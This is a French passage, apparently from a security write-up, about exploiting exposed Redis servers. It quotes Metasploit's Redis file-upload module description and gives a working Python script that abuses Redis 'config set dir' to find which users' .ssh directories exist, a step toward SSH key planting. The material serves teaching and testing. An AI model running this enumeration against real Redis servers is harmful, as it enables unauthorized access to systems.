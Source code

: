 Metasploit dispose d'un module *auxiliary/scanner/redis/file\_upload* dont la description est assez parlante :  

```plain
Description:
  This module can be used to leverage functionality exposed by Redis
  to achieve somewhat arbitrary file upload to a file and directory to
  which the user account running the redis instance has access. It is
  not totally arbitrary because the exact contents of the file cannot
  be completely controlled given the nature of how Redis stores its
  database on disk.
```

L'exploitation peut aussi se faire plus simplement en se connectant sur le port Redis à l'aide de telnet (qui s’occupera d'envoyer des CRLF). On peut voir plusieurs scénarios d'explotation sur le blog de [Urahara](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html).  

Le client redis semble lui utiliser un formatage légèrement plus poussé, assez propre du bencoding utilisé par Bittorent, dans tous les cas il est assez simple d'écrire à titre d'exemple un outil de brute-force de compte Unix pour espérer trouver un dossier .ssh accessible :  

```python
import socket
import sys

cmd = (
    "*4\r\n"
    "$6\r\n"
    "config\r\n"
    "$3\r\n"
    "set\r\n"
    "$3\r\n"
    "dir\r\n"
    "${}\r\n"
    "{}\r\n"
)

sock = socket.socket()
sock.connect(('127.0.0.1', 9999))

with open(sys.argv[1], errors="ignore") as fd:
    for username in fd:
        username = username.strip()
        path = "/home/{}/.ssh/".format(username)
        payload = cmd.format(len(path), path)
        sock.send(payload.encode())
        buff = sock.recv(1024).decode()
        if "No such file or directory" in buff:
            continue
        else:
            print(username, buff)

sock.close()
```
